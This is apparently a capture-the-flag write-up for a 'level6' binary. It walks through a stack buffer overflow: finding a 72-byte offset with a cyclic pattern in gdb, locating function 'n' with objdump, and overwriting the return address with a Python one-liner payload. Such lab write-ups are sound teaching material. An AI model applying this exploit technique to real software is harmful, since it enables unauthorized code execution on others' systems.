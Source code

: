 We start by opening the binary in [dogbolt](https://dogbolt.org/) here we see that we must call `n` to trigger the `cat`.

We search the offset using a pattern generator like : [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator)

```
r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

When we put 0x41346341 in wiremask it find an offset of 72.

We search `n`:

```Shell
objdump -t level6
...
08049824  w      .data  00000000              data_start
08048454 g     F .text  00000014              n
0804982c g       *ABS*  00000000              _edata
...
```

address of `n` : 08048454
little-endian : /x54/x84/x04/x08

Putting this together give us :
`./level6 $(python -c 'print "A"*72+"\x54\x84\x04\x08"')`
